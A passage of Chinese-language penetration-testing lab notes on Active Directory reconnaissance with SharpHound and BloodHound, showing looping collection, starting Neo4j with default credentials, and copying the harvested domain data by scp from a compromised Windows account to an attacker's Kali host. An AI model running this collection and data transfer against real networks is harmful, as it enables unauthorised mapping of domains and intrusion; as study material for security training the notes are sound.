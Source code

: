 >[!Note]
> SharpHound 可以使用 Loop 觀察長時間 domain 中發生的變化:
> ```
> Invoke-BloodHound -CollectionMethod All -Loop -LoopDuration 2h -LoopInterval 5m -OutputDirectory C:\Users\stephanie\Desktop\
> ```
> `-Loop`：啟用循環收集\
`-LoopDuration 2h`：執行 2 小時\
`-LoopInterval 5m`：每 5 分鐘 進行一次收集

### Analysing Data using BloodHound
BloodHound 依賴 [Neo4j](https://neo4j.com/) (一種圖形資料庫) 來儲存和分析 AD 資料。在 Kali Linux 中，Neo4j 是 APT 安裝 BloodHound 時自動安裝的
#### 1. 啟動 Neo4j 資料庫
```
┌──(chw㉿CHW)-[~]
└─$ sudo neo4j start           
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:1880421). It is available at http://localhost:7474
There may be a short delay until the server is ready.

```
透過瀏覽器開啟 http://localhost:7474 登入 Neo4j，預設帳號/密碼為：`neo4j`/`neo4j`\
![image](https://hackmd.io/_uploads/rJyC0K2ikx.png)

#### 2. 啟動 BloodHound
```
┌──(chw㉿CHW)-[~]
└─$ bloodhound
(node:1884189) electron: The default of contextIsolation is deprecated and will be changing from false to true in a future release of Electron.  See https://github.com/electron/electron/issues/23506 for more information
(node:1884237) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.

```
打開 BloodHound UI，並要求我們輸入 Neo4j 的帳號密碼 來登入資料庫\
![image](https://hackmd.io/_uploads/B1jukqhokg.png)

#### 3. 上傳 SharpHound 收集的資料
透過 scp 傳回 Kali
```
PS C:\Users\stephanie\Desktop> scp "C:\Users\stephanie\Desktop\corp audit_20250310084605_BloodHound.zip" chw@192.168.45.159:~/corp_audit.zip
chw@192.168.45.159's password:
corp audit_20250310084605_BloodHound.zip                                              100%   27KB 146.4KB/s   00:00
PS C:\Users\stephanie\Desktop>
```
在 BloodHound 上傳 `.zip`\
![image](https://hackmd.io/_uploads/rJVWmcnoye.png)
